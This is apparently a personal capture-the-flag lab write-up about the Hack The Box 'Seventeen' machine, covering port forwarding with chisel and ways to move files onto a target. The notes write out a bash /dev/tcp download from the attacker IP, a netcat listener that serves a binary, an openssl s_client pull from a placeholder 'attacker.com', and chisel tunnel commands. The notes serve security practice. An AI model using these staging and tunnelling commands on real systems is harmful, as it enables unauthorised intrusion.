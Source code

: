 993 - IMAP over TLS
995 - Pop3 over TLS
3306 -MySQL
 
```bash
~C
-L 488
```

[Paused video to continue this for last two and half hours I can justify these days](https://www.youtube.com/watch?v=U-2nI6wSPOE&t=1632s). So from deduction  the reason that 4873 is a weird port is it not a 5 digit port and it is mostly likely an in-house usage as it not third party vendor official port or standard unix service port.  

Therefore port forwarding. I want to do this both with chisel and with ssh before I check how Ippsec does it. 

- If we domain or network joined what ports are exposed to localhost, but not remotehost?
	- Are there in-house usage of non-standard ports?
		- Port Redirection, Networking and Network Security considerations?
			- Avaliable services for redirection or can you drop a binary like Chisel?

File transfers for you brain and mine the openssl file transfer is hilariously good as everything requires opensll 
```bash
# scp oh hi Mark...
scp chisel mark@seventeen.htb:/tmp/chisel

# use bash subshell to cat on local box into a local path with /dev/tcp while hosting the file with: 
nc -lvnp 80 < chisel
# target machine:
bash -c "cat < /dev/tcp/10.10.14.109/80 > /tmp/chisel"

# My continued nememsis openssl
# Create key and server to host a $file
openssl req -x509 -newkey rsa:4096 -keyout key.pem -out cert.pem -days 365 -nodes
openssl s_server -quiet -key key.pem -cert cert.pem -port 12345 < $file_to_send
# Victim 
RHOST=attacker.com
RPORT=12345
LFILE=file_to_save
openssl s_client -quiet -connect $RHOST:$RPORT > "$LFILE"
```

I just gave AA for everything, but it would be more secure OPSEC or scope or objective reasons to consider what you information to you generate with the key.
![](stickachiselinmarkseye.png)
There is also a recent [opensll Vulnerability](https://sysdig.com/blog/openssl-3-vulnerability-container-images/), regardless the openssl gtfobin was kill multi birds with one stone Beyond Root and goals that I missed in previos CTFs self made challenges. Made me feel more comfortable with encrypted Socat in later CTFs

Tried using just manual rather than my cheatsheets just practice memorising port redirection concept for Azure virtual networking, OSCP related and long good life. 
```bash
# Host 
chisel server -host 127.0.0.1 -port $serverPort
# Seveenteen.htb
chisel client -fingerprint $fingerprint 4873:127.0.0.1:$listenerPort$:10.10.14.109:$Serverport
```
I then ran into the upsetting revalations the I have not finished and there by mined [[Reddish-Helped-Through]]... it is now on the complete ASAP list, so hopefully before the end of Janaury 2023. Regardless, I learnt openssl lolbas file transfering, plus more happy with openssl after 7 plus month head butting it for various reason in HTB boxes. Sadly I turned off the chisel server.
